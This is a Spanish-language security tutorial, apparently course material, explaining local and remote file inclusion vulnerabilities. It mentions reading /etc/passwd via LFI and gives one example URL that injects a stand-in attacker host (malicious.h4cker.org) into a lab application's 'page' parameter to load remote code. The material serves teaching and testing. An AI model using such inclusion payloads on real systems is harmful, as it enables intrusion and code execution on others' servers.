


# Explotando Vulnerabilidades de Inclusión de Archivos
Necesitamos evaluar la debilidad ante las vulnerabilidades de inclusión local o remota de archivos (LFI/RFI). Creemos que los usuarios del sitio web y la red no deberían poder acceder a ningún archivo más allá de los necesarios para el rol de usuario. La capacidad de leer o ejecutar incluso un archivo sin autorización significa que probablemente haya muchos más a los que también se puede acceder, ya sea en este momento o en el futuro.<br>
Aplicaremos este estándar a nuestras interacciones. Nos preocupa especialmente que las aplicaciones web utilicen entornos de ejecución de scripts. Sabemos que su foro de revisión de juegos permite la carga de archivos por los usuarios. Esta es otra fuente potencial de vulnerabilidades de la inclusión de archivos.<br>
Las secciones siguientes proporcionan detalles sobre las vulnerabilidades de inclusión local y remota de archivos.<br>

## Vulnerabilidades de Inclusión de Archivos Locales
Se produce una vulnerabilidad de inclusión local de archivos (LFI) cuando una aplicación web permite que un usuario envíe información en archivos o cargue archivos en el servidor. La explotación exitosa podría permitir que un atacante lea y (en algunos casos) ejecute archivos en el sistema de la víctima. Algunas vulnerabilidades de LFI pueden ser críticas si una aplicación web se ejecuta con altos privilegios o como root. Dichas vulnerabilidades pueden permitir a los atacantes obtener acceso a información confidencial e incluso permitirles ejecutar comandos arbitrarios en el sistema afectado. La imagen muestra un ejemplo de una vulnerabilidad de recorrido de directorios, pero la misma aplicación también tiene una vulnerabilidad de LFI: el archivo __/etc/passwd__ puede mostrarse en la página de la aplicación debido a un defecto LFI.<br>

<br>

## Vulnerabilidades de Inclusión Remota de Archivos
Las vulnerabilidades de inclusión remota de archivos (RFI) son similares a las vulnerabilidades de LFI. Sin embargo, cuando un atacante explota una vulnerabilidad de RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema (el sistema atacante).<br>
__NOTA__: Las vulnerabilidades RFI son fáciles de explotar; sin embargo, son menos comunes que las vulnerabilidades LFI.<br>

**_Explotando una Vulnerabilidad de Inclusión Remota de Archivos_**<br>

<br>

En la imagen, el atacante ingresa la siguiente URL para realizar el ataque:<br>

```
    http://192.168.78.8:66/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
```

En este ejemplo, es probable que el sitio web del atacante (http://malicious.h4cker.org/malware.html) aloje malware o scripts maliciosos que se pueden ejecutar cuando la víctima visita este sitio.<br>